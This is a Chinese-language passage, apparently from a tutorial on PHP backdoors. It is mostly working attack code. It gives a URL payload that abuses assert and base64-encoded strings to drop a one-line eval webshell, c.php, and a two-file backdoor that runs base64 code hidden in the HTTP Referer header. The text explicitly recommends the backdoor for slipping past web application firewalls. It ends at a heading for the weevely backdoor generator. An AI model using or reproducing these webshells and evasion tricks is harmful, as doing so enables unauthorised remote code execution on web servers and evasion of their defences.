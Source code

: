 仅用 GET 函数就构成了木马；

利用方法：

```
?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w% 29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};
```

执行后当前目录生成 c.php 一句话木马，当传参 a 为 eval 时会报错木马生成失败，为 assert 时同样报错，但会生成木马，真可谓不可小视，简简单单的一句话，被延伸到这般应用。

层级请求，编码运行 PHP 后门
----------------

此方法用两个文件实现，文件 1

```
<?php
//1.php
header('Content-type:text/html;charset=utf-8');
parse_str($_SERVER['HTTP_REFERER'], $a);
if(reset($a) == '10' && count($a) == 9) {
eval(base64_decode(str_replace(" ", "+", implode(array_slice($a, 6)))));
}
```

文件 2

```
<?php
//2.php
header('Content-type:text/html;charset=utf-8');
//要执行的代码
$code = <<<CODE
phpinfo();
CODE;
//进行base64编码
$code = base64_encode($code);
//构造referer字符串
$referer = "a=10&b=ab&c=34&d=re&e=32&f=km&g={$code}&h=&i=";
//后门url
$url = 'http://localhost/test1/1.php';
$ch = curl_init();
$options = array(
CURLOPT_URL => $url,
CURLOPT_HEADER => FALSE,
CURLOPT_RETURNTRANSFER => TRUE,
CURLOPT_REFERER => $referer
);
curl_setopt_array($ch, $options);
echo curl_exec($ch);
```

通过 HTTP 请求中的 HTTP_REFERER 来运行经过 base64 编码的代码，来达到后门的效果，一般 waf 对 referer 这些检测要松一点，或者没有检测。用这个思路 bypass waf 不错。

PHP 后门生成工具 weevely
------------------
